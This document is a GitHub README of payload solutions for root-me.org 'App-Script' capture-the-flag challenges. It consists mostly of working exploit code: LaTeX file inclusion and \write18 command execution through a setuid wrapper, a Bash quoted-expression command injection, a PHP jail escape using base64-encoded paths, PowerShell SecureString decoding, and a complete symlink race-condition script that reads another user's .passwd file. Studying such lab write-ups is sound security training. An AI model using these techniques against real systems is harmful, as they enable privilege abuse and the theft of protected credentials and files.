 # root-me.org-payloads - App Script 

## What is it ?

Some [root-me.org](https://www.root-me.org/) payloads

## R: Code Execution
[R Code Execution challenge](https://www.root-me.org/en/Challenges/App-Script/R-Code-Execution)

### Payload 
```R
read.table("/home/prof-stats/corriges_examens_analyses_stats/2021/flag.txt", sep = "\t", header = TRUE)
```

## LaTeX - Input
[LaTeX - Input challenge](https://www.root-me.org/fr/Challenges/App-Script/LaTeX-Input)

### Payload 

First create a latex file :

```bash
vi /tmp/pwned.tex
```
Then copy this payload on the file :

```LaTex
\documentclass{article}
\usepackage{verbatim}
\begin{document}
\verbatiminput{/challenge/app-script/ch23/.passwd}
\end{document}
```
Then execute the script passing this latex file in argument :
```bash
./setuid-wrapper /tmp/pwned.tex
```

Then retrieve the output pdf with scp :
```bash
scp app-script-ch23@challenge02.root-me.org:/tmp/YOUR_OUPUT_FILE /~
```

The flag should be printed on it

## LaTeX - Command execution
[LaTeX - Command execution challenge](https://www.root-me.org/en/Challenges/App-Script/LaTeX-Command-execution)

### Payload
Do the same as the above but in your latex file copy this payload :

```LaTex
catcode `\_=12
\documentclass{article}
\begin{document}
\immediate\write18{cat /challenge/app-script/ch24/flag_is_here/512cba42fe46c1f346996b51fa053b15fba17baefa038d434381aa68bba6/.passwd > /tmp/buffer.tmp}
\input{/tmp/buffer.tmp}
\end{document}
```

## Powershell - SecureString
[PowerShell - SecureString challenge](https://www.root-me.org/fr/Challenges/App-Script/Powershell-SecureString)

### Payload
```Powershell
([System.Runtime.InteropServices.Marshal]::PtrToStringAuto([System.Runtime.Int
eropServices.Marshal]::SecureStringToBSTR($SecurePassword)))
```

## Powershell - Basic jail
[PowerShell - Basic jail challenge](https://www.root-me.org/fr/Challenges/App-Script/Powershell-Basic-jail)

### Payload
Just type 
```Powershell
Content
```
Then in the prompter type
```bash 
./.passwd
```
Then enter and the flag will be prompt 

### Bash - quoted expression injection
[Bash - quoted expression injection](https://www.root-me.org/fr/Challenges/App-Script/Bash-quoted-expression-injection)

### Payload
```bash
'x[$(echo `cat .passwd`))]'
```
You will get an error message with the flag inside

### PHP - Jail
[PHP - Jail](https://www.root-me.org/fr/Challenges/App-Script/PHP-Jail)

### Paylaod 

First we can get the source code of the script with the following command :
```php 
echo show_source(getenv(SHELL));
```

After sanitizing it we get the following script :

![Source code of the jail](https://image.noelshack.com/fichiers/2024/01/1/1704119452-screenshot-from-2024-01-01-15-30-39.png)

We can see that many php functions are blocked by the regex, with this command we can get the list of all the functions available :
```php
print_r(get_defined_functions())
```

We can see that [base64](https://www.php.net/manual/en/function.base64-decode.php) functions are available as well as [implode](https://www.php.net/manual/en/function.implode.php) and [glob](https://www.php.net/manual/en/function.glob.php). Let's try this command :

![Glob command in php](https://image.noelshack.com/fichiers/2024/01/1/1704120632-screenshot-from-2024-01-01-15-50-21.png)

In this command we pass the value of '/challenge/app-script/ch13/*' encoded in base64 to an array then with the function implode we join the array into a string and we do a glob.
The result of this command will be :
```php 
print_r(glob(/challenge/app-script/ch13/*,GLOB_ONLYDIR));
```

We can see that there is a subfolder /passwd. We do the same command in the /passwd subfolder :
```php
print_r(glob(implode(array(base64_decode(L2NoYWxsZW5nZS9hcHAtc2NyaXB0L2NoMTMvcGFzc3dkLy4q)))))
```

![Glob command in php](https://image.noelshack.com/fichiers/2024/01/2/1704201285-screenshot-from-2024-01-02-14-14-02.png)

We can see that there is a .passwd file so we just now have to open it with the following command:

```php 
echo show_source(implode(array(base64_decode(L2NoYWxsZW5nZS9hcHAtc2NyaXB0L2NoMTMvcGFzc3dkLy5wYXNzd2Q))));
```

Wich will be interpreted as :
```php
echo show_source(/challenge/app-script/ch13/passwd/.passwd);
```
### BASH - Race condition
[BASH - Race condition](https://www.root-me.org/fr/Challenges/App-Script/Bash-race-condition)

### Payload

First create a file in /tmp folder :

```bash
vi /tmp/pwned.sh
```
Then give it the rights :
```bash
chmod u+x /tmp/pwned.sh
```
 
Then copy the following script in the file :
```bash
#!/bin/bash

DIRECTORY="/tmp/$PPID/$1"
echo "Checking in: $DIRECTORY"

while :; do
    if [ -d "$DIRECTORY" ]; then
        if [ "$(ls -A "$DIRECTORY")" ]; then
            DIR_PATTERN="tmp.*"
            FOUND_DIRS=$(find "$DIRECTORY" -type d -name "$DIR_PATTERN")

            if [ -n "$FOUND_DIRS" ]; then 
                kill -SIGSTOP $1
                echo -n "data" > $FOUND_DIRS/pwned_file
                kill -SIGCONT $1
                ln -sf ~/.passwd $FOUND_DIRS/pwned_file
                while : ; do
                    kill -SIGSTOP $1
                    unlink $FOUND_DIRS/pwned_file
                    echo -n "data" > $FOUND_DIRS/pwned_file
                    ln -sf ~/.passwd $FOUND_DIRS/pwned_file
                    kill -SIGCONT $1
                    [[ -e "$FOUND_DIRS" ]] || break
                done
                break
            else
                echo "No directories found matching pattern '$DIR_PATTERN' in $DIRECTORY."
            fi
        else
            echo "Directory $DIRECTORY exists but is empty."
        fi
    else
        echo "Directory $DIRECTORY does not exist."
    fi
done
```

This scipts do a infinite loop and monitor the directories created by the challenge script, when he found a directory in /tmp that matchs he creates a symlink to $HOME/.passwd
in order to do a race condition exploit on this command of the challenge script :
```bash 
find "$temp_dir" -type f -size 4c -exec cat {} + 
```

As stated here [Race condition with exec](https://www.gnu.org/software/findutils/manual/html_node/find_html/Race-Conditions-with-_002dexec.html)

Then lauch it like this :
```bash
~/wrapper & /tmp/pwned.sh $!
```

Where $! is the pid of the processus ~/wrapper
At the moment, the race is not always won by the script so relaunch it until you have a valid flag

